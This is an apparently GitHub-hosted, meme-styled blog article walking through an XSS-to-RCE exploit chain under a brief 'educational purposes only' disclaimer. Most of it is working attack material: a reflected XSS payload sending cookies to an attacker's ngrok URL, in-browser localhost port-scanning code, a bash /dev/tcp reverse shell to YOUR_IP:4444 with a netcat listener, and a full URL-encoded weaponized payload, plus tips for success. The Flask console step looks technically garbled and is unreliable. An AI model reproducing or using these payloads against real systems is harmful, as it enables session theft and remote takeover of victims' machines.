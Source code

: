 # 🚀 From XSS to RCE: The Full Exploit Chain (with Memes, Code & Madness)

> _"All I had was a little XSS, and suddenly I had a reverse shell. Wild times."_

---

## 🚩 Legal First (Yeah Yeah I Know)

Before we start launching payloads and opening ports like it's 1999: **This article is for educational purposes only.**

No, seriously. Don't hack stuff you don't own. Unless you want to meet the FBI faster than ChatGPT loads. 🚫

---

## 🤔 Why Bother With XSS?

You might be thinking:

> "XSS is low severity, right?"

Wrong.

Modern XSS = gateway drug to full **Remote Code Execution** (RCE). Let me break it down like this:

| Technique | Damage Potential |
|----------|------------------|
| XSS      | Cookie theft, defacement |
| XSS + creativity | RCE, pivoting, persistence |

With the right angle, XSS can turn into **internal network access** and from there, into **root access**.

---

## 🔍 Finding the Entry: The XSS Injection

Let’s say you find something like:

```
https://victim.site/page?name=
```

And it's vulnerable to reflected XSS. Try:

```html
" onmouseover=fetch('https://your-ngrok-url/?cookie='+document.cookie) x="
```

> You hover. It fires. Cookie is stolen. 🧨

---

## 🧐 Internal Recon: Scanning Ports From the Browser

**Fun Fact:** Browsers can reach `127.0.0.1`. So you can scan localhost **on the victim's machine**.

```js
let ports = [22, 80, 443, 5000, 8000, 8080];
let report = "https://your-ngrok/report";

ports.forEach(p => {
  fetch('http://127.0.0.1:' + p + '/', {mode: 'no-cors'})
    .then(() => fetch(report + '?port=' + p + '&status=open'))
    .catch(() => fetch(report + '?port=' + p + '&status=fail'));
});
```

Set up your listener with:

```bash
python3 -m http.server 8080  # or custom report_server.py
```

> Suddenly you're a port scanner. Through JavaScript. Inside someone's browser. 😶

---

## 🎮 Exploiting Dev Tools: The Flask Console

So you found port 5000 is open? Might be a Flask dev server.

Try this via XSS:

```js
fetch("http://127.0.0.1:5000/console", {
  method: "POST",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({
    __init__: "__import__('os').system('bash -i >& /dev/tcp/YOUR_IP/4444 0>&1')"
  })
});
```

And on your end:

```bash
nc -lvnp 4444
```

> _Boom! You're in._ 🚀

---

## 🔫 Weaponizing It All: One Payload to Rule Them All

This is what it might look like URL-encoded:

```
https://victim.site/page?name=%22%20onmouseover%3Dfetch('http://127.0.0.1:5000/console'%2C%7Bmethod:'POST'%2Cheaders:%7B'Content-Type':'application/json'%7D%2Cbody:JSON.stringify(%7B__init__:'__import__(\'os\').system(\'bash%20-i%20>%26%20/dev/tcp/YOUR_IP/4444%200>%261\')'%7D)%7D)%3B%22
```

Make sure you're using an active Ngrok tunnel or public listener.

---

## 😂 Meme Time

![XSS to RCE](https://i.imgflip.com/6g8i0b.jpg)

> When your 3-character XSS payload spawns a shell.

---

## ✨ Pro Tips for Real Success

- Use `mode: no-cors` to avoid blocking
- Always log incoming requests from target browsers
- Try longer payloads in `<script>` injection if reflected HTML breaks it
- Test port 5000, 8000, 8080 — they're gold mines

---

## 🪪 Final Words

XSS isn't dead. It's just misunderstood.

With enough creativity and the right setup (Ngrok, Netcat, and some JavaScript wizardry), you can turn a harmless popup into a full system compromise.

> And remember: **Always hack ethically.**

Or at least hack smart. 🤝

---

**Made with ❤️ by a curious mind, fueled by caffeine & 404 pages.**
